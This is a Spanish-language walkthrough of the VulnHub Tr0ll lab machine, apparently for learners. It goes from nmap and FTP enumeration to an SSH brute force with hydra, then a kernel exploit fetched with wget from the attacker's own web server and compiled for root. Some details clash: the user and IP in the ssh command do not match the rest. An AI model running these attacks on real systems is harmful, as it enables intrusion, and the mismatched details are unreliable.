










# Tr0ll — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — Tr0ll (link arriba)  
**Objetivo:** Obtener acceso root y encontrar la flag.
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- FTP alberga un archivo .pcap. Wireshark muestra una dirección web  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `overflow`.  
- Encontré Kernel antiguo -> `searchsploit` cuenta con exploit para escalar privilegios
- Flags: root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.97**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.97` (confirma Linux).



## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.97
```


Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración FTP
Ingreso con el usuario *anonymous* y encuentro un archivo `.pcap` y procedo a analizarlo con `wireshark`. Encuentro un directorio secreto en la web.





El nuevo directorio alberga un binario con nombre `roflmao`. Lo descargo y con ayuda de `strings` logro encontrar una pista.

```bash
strings roflmao -n 13
```



## 4) Fuerza bruta con Hydra
La nueva ubicación alberga dos carpetas, cada una con una lista de palabras.



Esto me lleva a pensar que se trata de posibles credenciales por lo que uso hydra para atacar el puerto 22.

```bash
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
```



## 5) Acceso y enumeración local
Paso unos minutos buscando posibles vectores para escalar privilegios y en un punto la conexión se rompe y tengo que loguearme nuevamente en SSH.



Aplico `uname -a` para listar la versión del Kernel y veo que es una versión muy desactualizada

## 6) Escalada a root
Con la versión del Kernel identificada, uso `searchsploit` para buscar un vector de ataque y escalar privilegios. Una vez identificado, lo descargo y monto un servidor en python para compartirlo a la máquina víctima.



```bash
searchsploit -m 37292.c
python3 -m http.server
```

Habiendo traido el exploit a la máquina objetivo procedo a compilarlo y ejecutarlo para obtener acceso root. Me muevo al directorio root y encuentro la flag

```bash
wget http://192.168.1.80:8080/37292.c
gcc 37292.c -o escalada
chmod +x escalada
./escalada
```



## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.97
ftp 192.168.1.97
wireshark lol.pcap 2</dev/null & disown
strings roflmao -n 13
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
ssh renu@192.168.1.78
uname -a
searchsploit -m 37292.c
python3 -m http.server
gcc 37292.c -o escalada
```

## Conclusión
Tr0ll es un CTF que ayuda a familiarizarse con la metodología y las fases del pentesting; las vulnerabilidades son básicas por lo que es un buen ejercicio para quienes quieren empezar a adentrarse en el área.